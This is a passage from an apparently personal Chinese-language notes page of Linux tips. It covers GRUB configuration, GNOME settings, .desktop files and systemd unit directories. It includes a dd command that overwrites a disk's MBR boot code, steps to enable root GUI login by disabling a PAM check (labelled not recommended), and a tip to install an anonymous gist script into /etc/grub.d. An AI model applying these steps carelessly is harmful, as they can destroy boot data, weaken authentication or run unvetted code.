<p>对一个菜单条目添加 <code>--unrestricted</code> 选项将会允许所有的用户启动这个操作系统，但却不能修改这个条目，也不能进入 GRUB 命令行控制台。 只有超级用户或者由 <code>--user</code> 开关指定的用户才能修改这个菜单条目。</p>
<figure class="highlight jboss-cli"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">/boot/grub/grub.cfg</span></span><br><span class="line">menuentry 'Arch Linux' <span class="params">--unrestricted</span> <span class="params">--class</span> arch <span class="params">--class</span> gnu-linux <span class="params">--class</span> os <span class="string">...</span></span><br></pre></td></tr></table></figure>
<p>注意：<strong>本章节存在争议! The factual accuracy of this article or section is disputed.</strong></p>
<p><strong>Reason:</strong> <code>/etc/grub.d/10_linux</code> 文件不应该被手工编辑，每次升级 <a href="https://archlinux.org/packages/?name=grub" target="_blank" rel="noopener">grub</a> 包都会自动把它覆盖掉。 (Discuss in <a href="https://wiki.archlinux.org/index.php/Talk:GRUB_(简体中文" target="_blank" rel="noopener">Talk:GRUB (简体中文)/Tips and tricks (简体中文)#</a>/Tips<em>and_tricks</em>(简体中文)))</p>
<p>要给 Linux 启动条目添加 <code>--unrestricted</code>，可以修改 <code>/etc/grub.d/10_linux</code> 文件开头的 <code>CLASS</code> 变量。</p>
<figure class="highlight brainfuck"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">/etc/grub</span><span class="string">.</span><span class="comment">d/10_linux</span></span><br><span class="line"><span class="comment">CLASS="</span>--<span class="comment">class</span> <span class="comment">gnu</span><span class="literal">-</span><span class="comment">linux</span> --<span class="comment">class</span> <span class="comment">gnu</span> --<span class="comment">class</span> <span class="comment">os</span> --<span class="comment">unrestricted"</span></span><br></pre></td></tr></table></figure>
<p><strong>注意</strong>：我的实际操作(成功测试)：仅加密编辑模式、命令行模式，启动可以直接启动，包括Windows系统引导</p>
<figure class="highlight brainfuck"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">编辑/etc/grub</span><span class="string">.</span><span class="comment">d/10_linux文件（Linux相关入口）和/etc/grub</span><span class="string">.</span><span class="comment">d/30_os</span><span class="literal">-</span><span class="comment">prober(Windows系统等的相关入口)</span></span><br><span class="line"><span class="comment">修改CLASS变量，在末尾加上</span>--<span class="comment">unrestricted</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">/etc/grub</span><span class="string">.</span><span class="comment">d/10_linux</span></span><br><span class="line"><span class="comment">CLASS="</span>--<span class="comment">class</span> <span class="comment">gnu</span><span class="literal">-</span><span class="comment">linux</span> --<span class="comment">class</span> <span class="comment">gnu</span> --<span class="comment">class</span> <span class="comment">os</span> --<span class="comment">unrestricted"</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">/etc/grub</span><span class="string">.</span><span class="comment">d/30_os</span><span class="literal">-</span><span class="comment">prober</span></span><br><span class="line"><span class="comment">CLASS="</span>--<span class="comment">class</span> <span class="comment">$(echo</span> <span class="comment">"$&#123;LABEL&#125;"</span> <span class="comment">|</span> <span class="comment">LC_ALL=C</span> <span class="comment">sed</span> <span class="comment">'s</span><span class="string">,</span><span class="title">[</span><span class="title">[</span><span class="comment">:digit:</span><span class="title">]</span><span class="title">]</span><span class="comment">*$</span><span class="string">,</span><span class="string">,</span><span class="comment">'</span> <span class="comment">|</span> <span class="comment">cut</span> <span class="literal">-</span><span class="comment">d'</span> <span class="comment">'</span> <span class="literal">-</span><span class="comment">f1</span> <span class="comment">|</span> <span class="comment">tr</span> <span class="comment">'A</span><span class="literal">-</span><span class="comment">Z'</span> <span class="comment">'a</span><span class="literal">-</span><span class="comment">z'</span> <span class="comment">|</span> <span class="comment">LC_ALL=C</span> <span class="comment">sed</span> <span class="comment">'s</span><span class="string">,</span><span class="title">[</span><span class="comment">^</span><span class="title">[</span><span class="comment">:alnum:</span><span class="title">]</span><span class="comment">_</span><span class="title">]</span><span class="string">,</span><span class="comment">_</span><span class="string">,</span><span class="comment">g'</span>  --<span class="comment">unrestricted)"</span></span><br></pre></td></tr></table></figure>
<h4 id="在没有按着-SHIFT-键时隐藏-GRUB-界面"><a href="#在没有按着-SHIFT-键时隐藏-GRUB-界面" class="headerlink" title="在没有按着 SHIFT 键时隐藏 GRUB 界面"></a>在没有按着 SHIFT 键时隐藏 GRUB 界面</h4><p>为了获取更快的启动速度，而不用等 GRUB 倒计时，可以命令 GRUB 在启动时隐藏目录，仅在 <code>Shift</code> 被按住的时候才显示。</p>
<p>将如下行添加到<code>/etc/default/grub</code>来启动这个功能：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_FORCE_HIDDEN_MENU</span>=<span class="string">"true"</span></span><br></pre></td></tr></table></figure>
<p>然后创建连接里的文件<a href="https://gist.githubusercontent.com/anonymous/8eb2019db2e278ba99be/raw/257f15100fd46aeeb8e33a7629b209d0a14b9975/gistfile1.sh" target="_blank" rel="noopener">[1]</a>，给它可执行权限，然后重新生成主配置文件：</p>
<figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># chmod a+x /etc/grub.d/31_hold_shift</span></span><br><span class="line"><span class="meta"># grub-mkconfig -o /boot/grub/grub.cfg</span></span><br></pre></td></tr></table></figure>
<p><strong>注意：</strong> 这个设置使用 keystatus 来检测按键事件，所以可能在某些机器上不能用。</p>
<h4 id="将-UUID-和基础脚本结合使用"><a href="#将-UUID-和基础脚本结合使用" class="headerlink" title="将 UUID 和基础脚本结合使用"></a>将 UUID 和基础脚本结合使用</h4><p>如果你想要使用 UUID 来避免不可靠的 BIOS 设备命名或者正在研究 GRUB 语法，这里有个使用了 UUID 的启动菜单项，和一个让 GRUB 使用你系统中正确的磁盘分区的小脚本。如果你想要将其移植到自己的系统上，只需要把 UUID 改成你的系统上的就行了。这个例子假设系统的 boot 和 root 文件系统是在不同的分区上，如果你还有其他分区，请相应地修改 GRUB 设置。</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br></pre></td><td class="code"><pre><span class="line">menuentry <span class="string">"Arch Linux 64"</span> &#123;</span><br><span class="line">    # <span class="builtin-name">Set</span> the UUIDs <span class="keyword">for</span> your boot <span class="keyword">and</span> root partition respectively</span><br><span class="line">    <span class="builtin-name">set</span> <span class="attribute">the_boot_uuid</span>=ece0448f-bb08-486d-9864-ac3271bd8d07</span><br><span class="line">    <span class="builtin-name">set</span> <span class="attribute">the_root_uuid</span>=c55da16f-e2af-4603-9e0b-03f5f565ec4a</span><br><span class="line"></span><br><span class="line">    # (Note: This may be the same as your boot partition)</span><br><span class="line"></span><br><span class="line">    # <span class="builtin-name">Get</span> the boot/root devices <span class="keyword">and</span> <span class="builtin-name">set</span> them <span class="keyword">in</span> the root <span class="keyword">and</span> grub_boot variables</span><br><span class="line">    search --fs-uuid <span class="variable">$the_root_uuid</span> <span class="attribute">--set</span>=root</span><br><span class="line">    search --fs-uuid <span class="variable">$the_boot_uuid</span> <span class="attribute">--set</span>=grub_boot</span><br><span class="line"></span><br><span class="line">    # Check <span class="keyword">to</span> see <span class="keyword">if</span> boot <span class="keyword">and</span> root are equal.</span><br><span class="line">    # <span class="keyword">If</span> they are, then append /boot <span class="keyword">to</span> <span class="variable">$grub_boot</span> (Since <span class="variable">$grub_boot</span> is actually the root partition)</span><br><span class="line">    <span class="keyword">if</span> [ <span class="variable">$the_boot_uuid</span> == <span class="variable">$the_root_uuid</span> ] ; then</span><br><span class="line">        <span class="builtin-name">set</span> grub_boot=(<span class="variable">$grub_boot</span>)/boot</span><br><span class="line">    <span class="keyword">else</span></span><br><span class="line">        <span class="builtin-name">set</span> grub_boot=(<span class="variable">$grub_boot</span>)</span><br><span class="line">    fi</span><br><span class="line"></span><br><span class="line">    # <span class="variable">$grub_boot</span> now points <span class="keyword">to</span> the correct location, so the following will properly <span class="builtin-name">find</span> the kernel <span class="keyword">and</span> initrd</span><br><span class="line">    linux <span class="variable">$grub_boot</span>/vmlinuz-linux <span class="attribute">root</span>=/dev/disk/by-uuid/$the_root_uuid ro</span><br><span class="line">    initrd <span class="variable">$grub_boot</span>/initramfs-linux.img</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h4 id="探测其他操作系统-os-prober"><a href="#探测其他操作系统-os-prober" class="headerlink" title="探测其他操作系统(os-prober)"></a>探测其他操作系统(os-prober)</h4><blockquote>
<p>想要让 grub-mkconfig 探测其他已经安装的系统并自动把他们添加到启动菜单中，<a href="https://wiki.archlinux.org/index.php/Install" target="_blank" rel="noopener">安装</a> 软件包 <a href="https://archlinux.org/packages/?name=os-prober" target="_blank" rel="noopener">os-prober</a> 并 <a href="https://wiki.archlinux.org/index.php/File_systems_(简体中文" target="_blank" rel="noopener">挂载</a>#挂载文件系统) 包含其它系统的磁盘分区。然后重新运行 grub-mkconfig。</p>
</blockquote>
<p><strong>注意：Debian 12开始，请务必保证<code>/etc/default/grub</code>文件中<code>GRUB_DISABLE_OS_PROBER=false</code></strong></p>
<h5 id="MS-Windows"><a href="#MS-Windows" class="headerlink" title="MS Windows"></a>MS Windows</h5><p><a href="https://archlinux.org/packages/?name=os-prober" target="_blank" rel="noopener">os-prober</a> 通常能自动发现包含 Windows 的分区。当然在载入默认的 Linux 驱动的情况下，NTFS 分区也不是总能够被探测到。如果 GRUB 没能发现它，尝试安装 <a href="https://archlinux.org/packages/?name=ntfs-3g" target="_blank" rel="noopener">ntfs-3g</a>，然后重新挂载这个分区再试一次。</p>
<p>加密的 Windows 分区需要在解密之后才能挂载。对于 BitLocker，可以使用 <a href="https://aur.archlinux.org/packages/dislocker/" target="_blank" rel="noopener">dislocker</a>AUR。这足够   <a href="https://archlinux.org/packages/?name=os-prober" target="_blank" rel="noopener">os-prober</a> 来添加正确的启动条目了。</p>
<h4 id="额外的参数"><a href="#额外的参数" class="headerlink" title="额外的参数"></a>额外的参数</h4><p>如想为 Linux 镜像添加额外的参数，你可以在 <code>/etc/default/grub</code> 中设置 <code>GRUB_CMDLINE_LINUX</code> 和 <code>GRUB_CMDLINE_LINUX_DEFAULT</code> 变量。生成普通启动项时，这两个参数的值会合并在一起传给内核。生成 recovery 启动项时, 仅使用 <code>GRUB_CMDLINE_LINUX</code> 参数。</p>
<p>两个参数不是一定要一起用。例如要系统支持<a href="https://wiki.archlinux.org/index.php/休眠" target="_blank" rel="noopener">休眠</a>后恢复,可以使用 <code>GRUB_CMDLINE_LINUX_DEFAULT=&quot;resume=UUID=*uuid-of-swap-partition* quiet&quot;</code>，其中 <code>*uuid-of-swap-partition*</code> 是你的交换分区的 <a href="https://wiki.archlinux.org/index.php/Persistent_block_device_naming_(简体中文" target="_blank" rel="noopener">UUID</a>#by-uuid)。这样在生成 recovery 启动项时，将不会启用 resume 功能，也不会有 <code>quiet</code> 参数来省略启动时的内核信息。而其他的普通启动项会包含它们。</p>
<p>grub-mkconfig 默认使用根文件系统的 <a href="https://wiki.archlinux.org/index.php/UUID" target="_blank" rel="noopener">UUID</a>，要禁用此设置，取消 <code>GRUB_DISABLE_LINUX_UUID=true</code> 前的注释。</p>
<p>要生成 GRUB recovery 启动项，需要确保在 <code>/etc/default/grub</code> 中 <code>GRUB_DISABLE_RECOVERY</code> 没有设置为 <code>true</code>。</p>
<p>更多信息请参考<a href="https://wiki.archlinux.org/index.php/Kernel_parameters_(简体中文" target="_blank" rel="noopener">Kernel parameters (简体中文)</a>)。</p>
<h4 id="移除MBR-GRUB"><a href="#移除MBR-GRUB" class="headerlink" title="移除MBR GRUB"></a>移除MBR GRUB</h4><p>在迁移到 GPT/UEFI 后，你可能想要移除 <a href="https://wiki.archlinux.org/index.php/Partitioning#Master_Boot_Record_(bootstrap_code" target="_blank" rel="noopener">MBR 启动代码</a>)，只需 <a href="https://wiki.archlinux.org/index.php/Dd#Remove_bootloader" target="_blank" rel="noopener">使用 dd</a>:</p>
<figure class="highlight gradle"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"># dd <span class="keyword">if</span>=<span class="regexp">/dev/</span>zero of=<span class="regexp">/dev/</span>sdX bs=<span class="number">440</span> <span class="keyword">count</span>=<span class="number">1</span></span><br></pre></td></tr></table></figure>
<h4 id="LVM"><a href="#LVM" class="headerlink" title="LVM"></a>LVM</h4><p><strong>Notes:</strong> grub-mkconfig 能自动检测是否需要 <code>lvm</code> 模块，没有必要专门在<code>GRUB_PRELOAD_MODULES</code> 中标明。将警告移动到<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">#安装</a>#安装) &amp; <a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">#Installation_2</a>#Installation<em>2) 或创建一个<a href="https://wiki.archlinux.org/index.php/Help:Style#&quot;Known_issues&quot;_section" target="_blank" rel="noopener">Known issues section</a> 并在里面写明。 (Discuss in [Talk:GRUB (简体中文)#](<a href="https://wiki.archlinux.org/index.php/Talk:GRUB" target="_blank" rel="noopener">https://wiki.archlinux.org/index.php/Talk:GRUB</a></em>(简体中文)))</p>
<p><strong>警告：</strong> GRUB 不支持 thin-provisioned 逻辑卷。</p>
<p>如果你的 <code>/boot</code> 或者 <code>/</code> 分区使用了 <a href="https://wiki.archlinux.org/index.php/LVM" target="_blank" rel="noopener">LVM</a>，确保 <code>lvm</code> 模块已经预先加载好。</p>
<figure class="highlight groovy"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="regexp">/etc/</span><span class="keyword">default</span>/grub</span><br><span class="line">GRUB_PRELOAD_MODULES=<span class="string">"... lvm"</span></span><br></pre></td></tr></table></figure>
<h4 id="RAID阵列"><a href="#RAID阵列" class="headerlink" title="RAID阵列"></a>RAID阵列</h4><p><strong>Notes:</strong> grub-mkconfig 能自动检测是否需要 <code>mdraid09</code> 以及 <code>mdraid1x</code> 模块，不需要在 <code>GRUB_PRELOAD_MODULES</code> 里面标明。将两个 grub-install 写到一个注意事项里，然后把它移动到<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">#安装</a>#安装)；将那些 <code>set root</code> 语句转移到 <a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">#定制 grub.cfg</a>#定制<em>grub.cfg)。 (Discuss in [Talk:GRUB (简体中文)#](<a href="https://wiki.archlinux.org/index.php/Talk:GRUB" target="_blank" rel="noopener">https://wiki.archlinux.org/index.php/Talk:GRUB</a></em>(简体中文)))</p>
<p>GRUB 可以很方便地操作 <a href="https://wiki.archlinux.org/index.php/RAID_(简体中文" target="_blank" rel="noopener">RAID</a>) 卷，你只需加载 GRUB 模块 <code>mdraid09</code> 或者 <code>mdraid1x</code> 就可以像其他卷一样进行操作了。</p>
<figure class="highlight groovy"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="regexp">/etc/</span><span class="keyword">default</span>/grub</span><br><span class="line">GRUB_PRELOAD_MODULES=<span class="string">"... mdraid09 mdraid1x"</span></span><br></pre></td></tr></table></figure>
<p>例如 <code>/dev/md0</code> 写成：</p>
<figure class="highlight dos"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="built_in">set</span> root=(<span class="built_in">md</span>/<span class="number">0</span>)</span><br></pre></td></tr></table></figure>
<p>而 RAID 卷上的分区（如 <code>/dev/md0p1</code>）则是：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">set</span> root=(md/<span class="number">0</span>,<span class="number">1</span>)</span><br></pre></td></tr></table></figure>
<p>如要在 <code>/boot</code> 分区使用 RAID1 时（或者 <code>/boot</code> 位于使用了 RAID1 的根分区之中）安装 GRUB，对于 BIOS 系统，直接在各个驱动器上运行 grub-install 即可，就像这样：</p>
<figure class="highlight brainfuck"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#</span> <span class="comment">grub</span><span class="literal">-</span><span class="comment">install</span> --<span class="comment">target=i386</span><span class="literal">-</span><span class="comment">pc</span> --<span class="comment">debug</span> <span class="comment">/dev/sda</span></span><br><span class="line"><span class="comment">#</span> <span class="comment">grub</span><span class="literal">-</span><span class="comment">install</span> --<span class="comment">target=i386</span><span class="literal">-</span><span class="comment">pc</span> --<span class="comment">debug</span> <span class="comment">/dev/sdb</span></span><br></pre></td></tr></table></figure>
<p>上例中 <code>/boot</code> 所在的 RAID 1 序列位于 <code>/dev/sda</code> 和 <code>/dev/sdb</code> 上。</p>
<p><strong>注意：</strong> GRUB 支持从 <a href="https://wiki.archlinux.org/index.php/Btrfs" target="_blank" rel="noopener">Btrfs</a> RAID 0/1/10 启动，但 <strong>不支持</strong> RAID 5/6。对 RAID 5/6，你可以使用 <a href="https://wiki.archlinux.org/index.php/Mdadm" target="_blank" rel="noopener">mdadm</a>，这个 GRUB 是支持的。</p>
<h4 id="boot-加密"><a href="#boot-加密" class="headerlink" title="/boot 加密"></a>/boot 加密</h4><p>GRUB 还专门支持从加密的 <code>/boot</code> 启动。这需要解锁一个 <a href="https://wiki.archlinux.org/index.php/LUKS" target="_blank" rel="noopener">LUKS</a> 块设备，来读取配置文件以及载入 <a href="https://wiki.archlinux.org/index.php/Arch_boot_process_(简体中文" target="_blank" rel="noopener">initramfs</a>#initramfs) 和<a href="https://wiki.archlinux.org/index.php/Kernels_(简体中文" target="_blank" rel="noopener">内核</a>)。这个选项试图解决<a href="https://wiki.archlinux.org/index.php/Dm-crypt/Specialties#Securing_the_unencrypted_boot_partition" target="_blank" rel="noopener">未加密的 boot 分区</a>问题。</p>
<p><strong>注意：</strong> <code>/boot</code> <strong>不需要</strong> 专门放到一个单独的分区，它也可以就留在系统的根目录 <code>/</code> 下面。</p>
<p><strong>警告：</strong> GRUB 不支持 LUKS2 headers，参见 <a href="https://savannah.gnu.org/bugs/?55093" target="_blank" rel="noopener">GRUB bug #55093</a>。当使用 <code>cryptsetup luksFormat</code> 创建加密分区时，一定要加上 <code>--type luks1</code>。</p>
<p>要启用这个功能，正常使用 <a href="https://wiki.archlinux.org/index.php/LUKS" target="_blank" rel="noopener">LUKS</a> 将 <code>/boot</code> 所在的分区加密，然后在 <code>/etc/default/grub</code> 中添加如下选项：</p>
<figure class="highlight gml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">/etc/<span class="keyword">default</span>/grub</span><br><span class="line">GRUB_ENABLE_CRYPTODISK=<span class="symbol">y</span></span><br></pre></td></tr></table></figure>
<p>grub-install 使用这个选项来生成 <code>core.img</code>，所以在修改这个选项之后要重新<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">安装 grub</a>#安装)。</p>
<p>如果没有进一步的修改，你需要两次输入一个密码：第一次是为了让 GRUB 在启动伊始解锁 <code>/boot</code> 的挂载点，第二次是在 initramfs 的要求下解锁根文件系统。你可以用 <a href="https://wiki.archlinux.org/index.php/Dm-crypt/Device_encryption#With_a_keyfile_embedded_in_the_initramfs" target="_blank" rel="noopener">keyfile</a> 来避免密码输入过程。</p>
<p><strong>警告：</strong></p>
<ul>
<li>如果你想要 <a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">生成主配置文件</a>#生成主配置文件)，确保 <code>/boot</code> 已经挂载好了。</li>
<li>为了进行与 <code>/boot</code> 的挂载点有关的系统更新，确保在进行更新之前已经对加密的 <code>/boot</code> 进行了解锁和挂载。如果使用了独立的 <code>/boot</code> 分区，这个可以通过使用 <a href="https://wiki.archlinux.org/index.php/Crypttab" target="_blank" rel="noopener">crypttab</a> 和一个 <a href="https://wiki.archlinux.org/index.php/Dm-crypt/Device_encryption#With_a_keyfile_embedded_in_the_initramfs" target="_blank" rel="noopener">keyfile</a> 在启动的时候自动完成。</li>
</ul>
<p><strong>注意：</strong></p>
<ul>
<li>如果你使用了特别的键盘映射，默认安装的 GRUB 是不知道的。这关系到如何输入密码来解锁 LUKS 块设备。</li>
<li>如果你遇到问题没法显示输入密码的界面（与 cryptouuid, cryptodisk相关的错误，或者 “device not found”），可以试着重新安装 GRUB，并在 <code>grub-install</code> 命令的尾部加上 <code>--modules=&quot;part_gpt part_msdos&quot;</code>。</li>
</ul>
<p><strong>提示：</strong> 你可以使用 <a href="https://bbs.archlinux.org/viewtopic.php?id=234607" target="_blank" rel="noopener">pacman hooks</a> 来在升级时涉及到 <code>/boot</code> 中的文件的时候自动挂载它。</p>
<h4 id="定制-grub-cfg"><a href="#定制-grub-cfg" class="headerlink" title="定制 grub.cfg"></a>定制 grub.cfg</h4><p><strong>Reason:</strong> 添加指导如何编写一个定制的 <code>/boot/grub/grub.cfg</code>。<a href="https://wiki.archlinux.org/index.php/User:Eschwartz/Grub" target="_blank" rel="noopener">User:Eschwartz/Grub</a> 中有一个草稿可以查阅。 (Discuss in <a href="https://wiki.archlinux.org/index.php/Talk:GRUB_(简体中文" target="_blank" rel="noopener">Talk:GRUB (简体中文)#Manually generate grub.cfg</a>#Manually_generate_grub.cfg))</p>
<p>这一节讲述如何在 <code>/boot/grub/grub.cfg</code> 中手工创建 GRUB 启动条目，而非使用 grub-mkconfig。</p>
<p>基础的 GRUB 配置文件使用如下的设置：</p>
<ul>
<li><code>(hd*X*,*Y*)</code> 为磁盘 <em>X</em> 上的分区 <em>Y</em>，分区编号从 1 开始，磁盘编号从 0 开始。</li>
<li><code>set default=*N*</code> 为在用户选择时间内没有进行选择时的默认启动条目。</li>
<li><code>set timeout=*M*</code> 即在使用默认条目启动前，等待用户自行选择的时间为 <em>M</em> 秒。</li>
<li><code>menuentry &quot;title&quot; {entry options}</code> 为一个标题为 <code>title</code> 的启动条目。</li>
<li><code>set root=(hd*X*,*Y*)</code> 设置 <code>\boot</code> 分区，即内核和 GRUB 模块存储的位置。（<code>\boot</code> 不一定要位于一个独立的分区，可能是根分区(<code>/</code>) 下面的一个目录。）</li>
</ul>
<h3 id="GNOME桌面环境"><a href="#GNOME桌面环境" class="headerlink" title="GNOME桌面环境"></a>GNOME桌面环境</h3><h4 id="调整GNOME屏幕分辨率-DPI"><a href="#调整GNOME屏幕分辨率-DPI" class="headerlink" title="调整GNOME屏幕分辨率 - DPI"></a>调整GNOME屏幕分辨率 - DPI</h4><p><code>gsettings set org.gnome.desktop.interface scaling-factor 2</code></p>
<h4 id="让Debian-GNOME支持超级用户登录——不建议"><a href="#让Debian-GNOME支持超级用户登录——不建议" class="headerlink" title="让Debian GNOME支持超级用户登录——不建议"></a>让Debian GNOME支持超级用户登录——不建议</h4><figure class="highlight jboss-cli"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">vi <span class="string">/etc/gdm3/daemon.conf</span></span><br><span class="line"><span class="comment"># 在[security]下添加：</span></span><br><span class="line">AllowRoot = <span class="literal">true</span></span><br><span class="line">vi <span class="string">/etc/pam.d/gdm-password</span></span><br><span class="line"><span class="comment"># 注释掉：</span></span><br><span class="line"><span class="comment"># auth required pam_succeed_if.so user != root quiet_success</span></span><br></pre></td></tr></table></figure>
<h4 id="备份GNOME配置"><a href="#备份GNOME配置" class="headerlink" title="备份GNOME配置"></a>备份GNOME配置</h4><p>可以使用<code>dconf</code></p>
<p>备份：<code>dconf dump / &gt; backup</code></p>
<p>重置：<code>dconf reset / -f</code></p>
<p>导入：<code>dconf load &lt; backup</code></p>
<h4 id="Desktop——添加GNOME-Application列表"><a href="#Desktop——添加GNOME-Application列表" class="headerlink" title="Desktop——添加GNOME Application列表"></a>Desktop——添加GNOME Application列表</h4><ul>
<li>添加<code>.desktop</code>文件到<code>/usr/share/applications/</code>或者<code>~/.local/applications</code></li>
<li>模板：</li>
</ul>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[Desktop Entry]</span></span><br><span class="line"><span class="attr">Encoding</span>=UTF-<span class="number">8</span></span><br><span class="line"><span class="attr">Name</span>=</span><br><span class="line"><span class="attr">GenericName</span>=</span><br><span class="line"><span class="attr">Comment</span>=</span><br><span class="line"><span class="attr">Exec</span>=/home/jessie/Prog/Application/</span><br><span class="line"><span class="attr">Icon</span>=/home/jessie/Prog/Application/</span><br><span class="line"><span class="attr">Terminal</span>=<span class="literal">false</span></span><br><span class="line"><span class="attr">Type</span>=Application</span><br><span class="line"><span class="attr">Categories</span>=Application<span class="comment">;</span></span><br><span class="line"><span class="attr">StartupNotify</span>=<span class="literal">false</span></span><br></pre></td></tr></table></figure>
<ul>
<li>Eclipse的Desktop模板：</li>
</ul>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[Desktop Entry]</span></span><br><span class="line"><span class="attr">Encoding</span>=UTF-<span class="number">8</span></span><br><span class="line"><span class="attr">Name</span>=eclipse</span><br><span class="line"><span class="attr">GenericName</span>=Eclipse IDE for Java</span><br><span class="line"><span class="attr">Comment</span>=Eclipse</span><br><span class="line"><span class="attr">Exec</span>=/home/jessie/eclipse/eclipse/eclipse</span><br><span class="line"><span class="attr">Icon</span>=/home/jessie/图片/图标-ICO/eclipse.gif</span><br><span class="line"><span class="attr">Terminal</span>=<span class="literal">false</span></span><br><span class="line"><span class="attr">Type</span>=Application</span><br><span class="line"><span class="attr">Categories</span>=Application<span class="comment">;</span></span><br><span class="line"><span class="attr">StartupNotify</span>=<span class="literal">false</span></span><br></pre></td></tr></table></figure>
<h3 id="Systemd——创建自己的服务"><a href="#Systemd——创建自己的服务" class="headerlink" title="Systemd——创建自己的服务"></a>Systemd——创建自己的服务</h3><blockquote>
<p>服务文件通常位于下面三个文件夹中，从上到下，最下面的最重要：<br>/lib/systemd/system/</p>
<p>/run/systemd/system/</p>
<p>/etc/systemd/system/</p>
<p><code>systemctl</code>脚本目录：<code>/usr/lib/systemd/</code><br>系统服务目录：<code>/usr/lib/systemd/system/</code><br>用户服务目录：<code>/usr/lib/systemd/user/</code></p>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">Unit 文件按照 Systemd 约定，应该被放置指定的三个系统目录之一中。这三个目录是有优先级的，如下所示，越靠上的优先级越高。因此，在三个目录中有同名文件的时候，只有优先级最高的目录里的那个文件会被使用。</span><br><span class="line">    /etc/systemd/system：系统或用户自定义的配置文件</span><br><span class="line">    /run/systemd/system：软件运行时生成的配置文件</span><br><span class="line">    /usr/<span class="class"><span class="keyword">lib</span>/<span class="title">systemd</span>/<span class="title">system</span>：系统或第三方软件安装时添加的配置文件。</span></span><br><span class="line">CentOS <span class="number">7</span>：Unit 文件指向该目录</span><br><span class="line">ubuntu <span class="number">16</span>：被移到了 /<span class="class"><span class="keyword">lib</span>/<span class="title">systemd</span>/<span class="title">system</span></span></span><br><span class="line"></span><br><span class="line">Systemd 默认从目录 /etc/systemd/system/ 读取配置文件。但是，里面存放的大部分文件都是符号链接，指向目录 /usr/<span class="class"><span class="keyword">lib</span>/<span class="title">systemd</span>/<span class="title">system</span>/，真正的配置文件存放在那个目录。</span></span><br></pre></td></tr></table></figure>
<p>参考：</p>
<p><a href="https://www.e-learn.cn/topic/3367780" target="_blank" rel="noopener">https://www.e-learn.cn/topic/3367780</a></p>
<p><a href="https://www.jianshu.com/p/81aefcbf0f94" target="_blank" rel="noopener">https://www.jianshu.com/p/81aefcbf0f94</a></p>
</blockquote>
<p>所以咱们自己创建的文件放在/lib/systemd/system/中。</p>
<p><code>/lib/systemd/system/ssh.service</code>服务文件示例：</p>
